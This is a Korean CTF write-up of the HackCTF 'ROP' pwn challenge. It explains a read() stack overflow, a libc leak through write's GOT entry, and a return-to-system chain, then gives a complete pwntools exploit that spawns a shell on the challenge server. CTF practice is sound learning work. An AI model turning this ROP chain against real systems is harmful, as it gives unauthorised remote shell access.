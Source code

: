 ```yaml
---
layout: post
title:  "HacCTF ROP write-up"
date:   2020-02-03 19:45:55
image:  hackctf_rop.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled.png)

NX비트가 걸려있고 Partial RELRO가 걸려있다. GOT overwrite는 가능할 것으로 보인다
<br><br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%201.png)

바이너리를 실행시키면 바로 입력을 받고, Hello, World!를 출력하고 종료된다.
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%202.png)

메인은 별게 없다. vulnerable_Function 함수가 하나 존재하고, write로 표준 출력을 통해 문자열을 출력시켜준다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%203.png)

vulnerable_function 함수를 보면 read함수가 끝이다. 해당 함수를 이용하여 ret를 덮을수 있을 것이다.
<br><br><br><br>
### 2. 접근방법

---

딱 보면 어떻게 할지 보인다.

1) ret를 덮어 libc 주소를 알아낸다

2) 알아낸 주소를 통해 libc base를 알아내고, 이를 이용하여 system 함수를 호출한다.
<br><br>

그럼 지금 필요한 것이 무엇인지 정리를 해보자.
<br><br>
- 아무 함수의 libc 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%204.png)
    
    현재 read, write, __gmon_start, __libc_start_main 이 4개가 끝이다. 따라서 write 함수로 write got를 인자로 넣어 write의 실 주소를 구해야 한다<br><br>

- libc  base 주소

    문제에서 libc.so.6 파일을 제공해줬으므로 이를 이용하여 write함수의 offset을 pwntools 기능을 통해 바로 구할수 있다. 따라서 위에서 구한 주소에서 offset을 빼서 base 주소를 구해야 한다<br><br>

- /bin/sh 주소

    read를 호출하게 하여 .bss 영역에 직접 입력을 하는 방법, 혹은 offset을 통해 libc에 저장된 /bin/sh 주소를 구하는 방식, 등을 이용하여 해당 문자열의 주소를 구해야 한다<br><br>

- system 함수 주소

    위에서 base 주소를 구했으므로, offset을 이용해야 구해야 한다.<br><br>

추가적으로 디버깅을 할때 현 내 로컬 시스템의 llibc가 아닌, 주어진 libc를 링킹해서 디버깅을 진행하면 간편하다. 방법은 아래의 코드를 익스코드 위에 추가하면 된다.

    ...
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p = process("./rop", env=env, aslr=False)
    ...
<br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level='DEBUG'
p=remote("ctf.j0n9hyun.xyz",3021)
#env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
#p = process("./rop", env=env, aslr=False)
e=ELF("./rop")
libc=ELF("./libc.so.6")
#gdb.attach(p,""" b* 0x0804847E  """)

write_plt=e.plt["write"]
write_got=e.got["write"]
read_plt=e.plt['read']

#log.info("libc_start_main offset::"+hex(e.symbols['__libc_start_main']))
log.info("write_plt::"+hex(write_plt))
log.info("write_got::"+hex(write_got))
#log.info("libc_base::"+hex(libc_base))

payload="A"*0x88+"B"*4
payload+=p32(write_plt)
payload+=p32(0x08048509)
payload+=p32(0x1)
payload+=p32(write_got)
payload+=p32(0x8)
payload+=p32(0x0804844b)
p.sendline(payload)
#log.info(p.recv)
#pause()
write_addr=p.recv(4)
#log.info(hex(write_addr))
#pause()
libc_base=u32(write_addr)-libc.symbols['write']

payload2="A"*0x8c
payload2+=p32(read_plt)
payload2+=p32(0x08048509)
payload2+=p32(0x0)
payload2+=p32(0x0804a024)
payload2+=p32(0x8)
payload2+=p32(libc_base+libc.symbols['system'])
payload2+="AAAA"
payload2+=p32(0x0804a024)

p.sendline(payload2)
p.sendline("/bin/sh\x00")
p.interactive()
```
<br><br><br>
### 4. 몰랐던 개념

---

처음에 read와 write는 syscall인데 libc 주소를 어케 구하지 라고 고민을 많이 했었다.

하지만 일반적으로 우리가 코딩할때 사용하는 read, write는 syscall이 아닌 libc에서 syscall read, write를 이용하여 wrapping한 read, write 였다.

따라서 이를 이용하여 똑같은 방식으로 libc leak을 진행하면 됬었다. 추후에 read, write 코드를 한번 봐야겠다.